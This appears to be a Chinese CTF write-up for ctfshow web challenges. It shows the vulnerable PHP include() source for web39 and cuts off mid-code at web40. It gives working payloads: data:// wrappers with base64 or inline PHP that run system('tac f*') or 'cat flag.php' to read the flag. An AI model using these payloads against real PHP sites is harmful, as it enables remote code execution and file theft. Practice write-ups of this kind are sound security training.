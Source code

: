 禁用php,但是php根本没有用好吧，不禁用也没用

障眼法，上题pyload直接杀

pyload1:data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==

pyload2:?c=data://text/plainc,<?php eval(system('tac f*'))?>

### web39

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 06:13:21
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c.".php");
    }
        
}else{
    highlight_file(__FILE__);
}
```

这有意思了，它将我们传入的参数拼接了后缀（.在php里可以用来拼接字符串），但是无所谓，思路就是截断，直接无视拼接把?>加上即可，因为php文件结尾是?>

?c=data://text/plainc,<?php eval(system('tac f*'))?>?>

> 看下大菜鸡师傅的解释发现多此一举
>
> data://text/plain, 这样就相当于执行了php语句 .php 因为前面的php语句已经闭合了，所以后面的.php会被当成html页面直接显示在页面上，起不到什么 作用，不用再闭合一次
>
> 障眼法

pyload:?c=data://text/plainc,<?php eval(system('tac f*'))?>

### web40，难度

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 06:03:36
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/


if(isset($_GET['c'])){
    $c = $_GET['c'];
```